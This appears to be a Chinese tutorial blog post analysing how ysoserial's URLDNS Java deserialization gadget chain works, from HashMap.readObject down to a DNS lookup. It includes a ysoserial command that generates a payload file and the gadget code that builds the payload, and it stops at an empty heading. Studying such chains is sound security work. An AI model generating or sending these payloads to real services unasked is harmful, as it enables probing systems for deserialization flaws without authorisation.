





### ysoserial简单入手

#### 简单了解ysoserial

* ysoserial是一个生成java序列化payload的工具

* 大致使用方式如下

  * 可以查看可用的利用链

  

  * 生成序列化对象,并输出到文件

```shell
# URLDNS为利用链,http://test.io为要执行的命令,当然这里由于URLDNS的特殊性,不能执行命令,这里的链接只是进行一次dnslog,payload.bin则是将序列化对象输出到文件
java -jar ysoserial-all.jar URLDNS http://test.io > payload.bin
```



#### ysoserial的对于URLDNS的简单调试

前面对于ysoserial的使用只是直接生成了攻击的序列化对象,我们并不了解整个攻击链的形成,借助对于ysoserial源码的分析,我们可以了解整个攻击链是如何形成的.我们可以通过调试ysoserial的源码,了解一条序列化链从生成到执行的全过程.

* 下载搭建项目
* 找到URLDNS的相关类



* 可能是作者为了方便大家调试,这里在idea中直接运行该类包括序列化和反序列化两个过程,也就是生成和利用一步到位.运行时记得设置参数,这里设置的为dnslog的目标.





接下来让我们简单分析一下URLDNS序列化和反序列化的过程:

* URLDNS.main调用PayloadRunner.run(URLDNS.class, args)
* PayloadRunner.run(URLDNS.class, args)中通过反射获取URLDNS.class实例,然后通过getObject得到要序列化的对象
* 调用相关工具类Serializer.serialize(objBefore)序列化对象
* 调用相关工具类Deserializer.deserialize(serialized)反序列化对象,利用完成

### 分析URLDNS

* 直接在反序列化处下断点,对其进行调试,这里我们也不可能去复现最初发现者的发现流程,我们就根据已知的信息,是HashMap的readObject函数中的putVal(hash(key), key, value, false, false);触发了漏洞,在该处下一个断点,分析其前后的调用链

```java
// PayloadRunner调研相关工具类反序列化对象
final Object objAfter = Deserializer.deserialize(serialized);

// 反序列化的方法
public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
		final ObjectInputStream objIn = new ObjectInputStream(in);
		return objIn.readObject();
	}

// 反序列化目标HashMap对象自身的readObject,在putVal(hash(key), key, value, false, false);的hash(key)进入下一步,key是URL类
 private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        reinitialize();

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }

// 又调用了URL的hashCode()
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }

// handler.hashCode(this)又调用了URLStreamHandler的hashCode
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }

// 关注InetAddress addr = getHostAddress(u);继续跟进
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }

// 实际上调研了URL类的getHostAddress
protected InetAddress getHostAddress(URL u) {
        return u.getHostAddress();
    }

//  hostAddress = InetAddress.getByName(host)已经很直观了,从方法名和变量名就可以看出从host获取ip,就进行了dns查询
synchronized InetAddress getHostAddress() {
        if (hostAddress != null) {
            return hostAddress;
        }

        if (host == null || host.isEmpty()) {
            return null;
        }
        try {
            hostAddress = InetAddress.getByName(host);
        } catch (UnknownHostException | SecurityException ex) {
            return null;
        }
        return hostAddress;
    }
```


* 前文中,URLDNS序列化和反序列化的过程中,通过URLDNS类的getObject获取了要反序列化的对象,在分析完了URLDNS链反序列化的过程后,让我们分析一下该方法

```java
 public Object getObject(final String url) throws Exception {

                // SilentURLStreamHandler是我们继承URLStreamHandler实现的一个类,这里没有什么实际意义,只是为了满足new URL类时的参数要求
                URLStreamHandler handler = new SilentURLStreamHandler();

                // HashMap的readObject是触发漏洞的直接原因
                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler); 
                ht.put(u, url); 

                Reflections.setFieldValue(u, "hashCode", -1); 

                return ht;
        }

static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
```

### URLDNS的特殊意义